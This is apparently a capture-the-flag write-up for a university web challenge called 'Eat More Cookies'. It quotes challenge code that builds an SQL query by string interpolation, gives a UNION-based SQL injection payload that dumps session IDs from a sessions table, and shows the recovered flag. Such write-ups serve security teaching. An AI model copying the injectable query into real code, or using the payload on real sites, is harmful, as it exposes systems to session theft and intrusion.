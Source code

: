 # Eat More Cookies
> `-`

## About the Challenge
We got a website and also the source code (You can download the source code [here](EatMoreCookies.zip)). Here is the preview of the website


[Image extracted text: https:IIwaynestateuniversity-ctf24-eatmorecookies chals iollogin
Login
Username
Password
Login]


If we check the source code, especially this part:

```js
app.get("/searchcookies", isAuthenticated, async (req, res, next) => {
  cookies = req.query.cookies;

  const query = `SELECT * FROM cookies WHERE flavor = "${cookies}"`;

    pool.query(query, (err, result) => {
      if(err){
        return next(err)
      }

    return res.status(200).render("index", {cookies: result || []})
    });
})
```

The `cookies` paramter is vulnerable to SQL injection, and the flag is inside another table called `sessions`

```js
try {
    const adminCookieData = {"cookie":{"originalMaxAge":86400000,"expires":"2024-04-20T19:21:29.400Z","httpOnly":true,"path":"/", "sameSite": "lax"},"username":"Admin","isAdmin":true};
    const sessionId = 'WSUCTF{F4ke_Flag}';
    const expirationTimestamp = 1712172179;

    const serializedData = JSON.stringify(adminCookieData);

    const query = `INSERT INTO sessions (session_id, data, expires) VALUES (?, ?, ?)`;
```

## How to Solve?
To get every `session_id` inside `sessions` table, im using this payload:

```
" union select 1,(select group_concat(session_id) from sessions),3-- -
```


[Image extracted text: https:Ilwaynestateuniversity-ctf24-eatmorecookies chalsio/searchcookies?cookies_"%2Ounion%2Oselect%201,(select%zOgroup_concat(session_id) %20
Search for your favorite cookie to see if we have it at WSU:
chocolate chip
Search
Here are your Cookies
Cookie Name: 3 Cookie Flavor: cm43B-dPoQReLNBRjUgv2q9uCSn YiK64,IUYp8uXH_4hMKT33UfPfHjVpPCkim8Rv,yeSZmGNs8T7VVpmiSbulPS9wdlPat3LA ,
{WSUCTF2A:S3arching_ThrOugh_Very_Expr3ssive_DBz}]


```
{WSUCTF24:S3arching_Thr0ugh_Very_Expr3ssive_DBz}
```